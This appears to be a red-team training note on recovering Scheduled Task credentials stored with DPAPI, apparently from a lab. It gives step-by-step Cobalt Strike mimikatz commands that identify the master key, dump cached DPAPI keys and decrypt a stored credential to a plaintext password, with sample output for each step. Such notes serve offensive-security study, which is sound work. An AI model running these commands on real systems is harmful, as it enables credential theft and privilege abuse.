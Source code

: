 
Scheduled Tasks can save credentials so that they can run under the context of a user without them having to be logged on. They use [[DPAPI]] to store the credentials and can be obtained and decrypted in a similar way as [[Credential Manager]] exploitation occurs.

## 🖊️ via Cobalt Strike

If we have local admin privileges on a machine, we can decrypt them.  The blobs are saved under 
`C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\`.

1) `dpapi::cred` can tell us the GUID of the master key used to encrypt each one.

```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E

guidMasterKey      : {aaa23e6b-bba8-441d-923c-ec242d6690c3}
```

2) `sekurlsa::dpapi` to dump cached keys.

```
beacon> mimikatz !sekurlsa::dpapi

	 [00000000]
	 * GUID      :	{aaa23e6b-bba8-441d-923c-ec242d6690c3}
	 * Time      :	9/6/2022 12:14:38 PM
	 * MasterKey :	10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9
	 * sha1(key) :	cfbc842e78ee6713fa5dcb3c9c2d6c6d7c09f06c
```

3) Now you proceed to decrypt the credential with the decrypted master key

```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9

  TargetName     : Domain:batch=TaskScheduler:Task:{86042B87-C8D0-40A5-BB58-14A45356E01C}
  UserName       : DEV\jking
  CredentialBlob : Qwerty123
```


### ⚠ Opsec




### Properties
---
📆 created   {{18-02-2024}} 14:43
🏷️ tags: #redteam #crto 

---

